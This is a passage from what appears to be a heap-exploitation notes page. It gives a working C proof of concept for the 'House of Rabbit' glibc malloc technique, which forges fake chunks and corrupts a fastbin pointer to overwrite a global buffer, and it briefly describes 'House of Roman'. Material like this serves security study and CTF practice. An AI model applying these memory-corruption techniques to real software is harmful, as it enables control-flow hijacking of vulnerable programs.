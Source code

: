 ## [House of Rabbit](https://github.com/shift-crops/House_of_Rabbit)

TODO

(recommend [P4nda's article](http://p4nda.top/2018/04/18/house-of-rabbit/))

```cpp
#include <stdio.h>
#include <stdint.h>
#include <stdlib.h>
#include <string.h>

char target[0x50] = "Orignial Buffer.";
char buf[0x40];

int main() {
    void *p, *q;
    fprintf(stderr, "Target: %s\n", target);
    p = malloc(0xa00008);
    free(p);
    p = malloc(0xa00008);
    free(p);

    p = malloc(0x28);
    q = malloc(0x88);
    free(p);
    *(uint64_t *)((uint64_t)buf + 0x8) = 0x11; // Set Fake Chunk1's size = 0x11
    *(uint64_t *)((uint64_t)buf + 0x18) = -0xf; // Set Fake Chunk2's prev_size = 0xfffffffffffffff1
    *(uint64_t *)((uint64_t)p) = (uint64_t *)((uint64_t)buf + 0x10); // Set Fastbin Chunk's fd = Fake Chunk2
    free(q); // Trigger malloc_consolidate

    *(uint64_t *)((uint64_t)buf + 0x18) = 0xa00001; // Set Fake Chunk
    malloc(0xa00000);
    *(uint64_t *)((uint64_t)buf + 0x18) = -0xf; // Set Fake Chunk

    int offset = (uint64_t)&target - ((uint64_t)buf + 0x10) - 0x20;
    p = malloc(offset);
    fprintf(stderr, "p = malloc(offset) => %p\n", p);
    void *victim = malloc(0x18);
    strcpy(victim, "Hacked.");
    fprintf(stderr, "Target: %s\n", target);
    exit(0);
}
```

## [House of Roman](https://github.com/romanking98/House-Of-Roman)

Partial write to control PC. (Off by One, Fastbin Attack, Unsortedbin Attack, etc)

